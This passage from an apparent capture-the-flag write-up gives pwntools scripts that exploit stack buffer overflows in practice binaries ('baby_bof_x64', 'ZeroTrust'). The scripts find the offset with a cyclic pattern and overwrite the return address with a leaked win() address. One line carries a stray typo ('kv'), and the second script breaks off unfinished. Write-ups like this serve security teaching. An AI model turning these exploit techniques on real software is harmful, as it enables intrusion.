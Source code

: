 ```py
# Start up a new process
io = process('./baby_bof_x64') # You could replace this with the remote process

# Get our win() function
win = io.recvline().decode().split("win(): ")[1]

# Craft our payload
payload = b'A' * offset
payload += p64(int(win, 16))

# Send our payload
io.sendline(payload)
io.interactive()
```

### 3) ZeroTrust™
A 'new' way to authenticate...  
- - -
#### Running the program
Right off the start, we are given the address of the `win()` function again, saving us plenty of time.

#### Debugging the program
Running gdb on the program showed interesting similarities between the binary that we just did, [:baby: BOF 64](#2--bof-64)... Hm, let's try to send the same script with some minor tweaks to adjust to the output of the program.

#### Reaching the `win()` function
```py
from pwn import *

### Finding our offset ###
io = process('./zerotrust') # You must use the local process

# Sending a arbitrary cyclic pattern
io.sendline(cyclic(128))

# Waiting our program to crash
io.wait()

# Retrieving our core dump (https://docs.pwntools.com/en/stable/elf/corefile.html)
core = io.corefile

# Observing the stack
stack = core.rsp # rsp: stack pointer

# Finding where our cyclic pattern leaked onto the stack
pattern = core.read(stack, 4)
offset = cyclic_find(pattern)kv

### Now that we have our offset, let's exploit the binary ###
# Start up a new process
io = process('./zerotrust') # You could replace this with the remote process

# Skip the banner text
io.recvline()
io.recvline()
io.recvline()
io.recvline()
io.recvline()
io.recvline()

# Get our win() function
```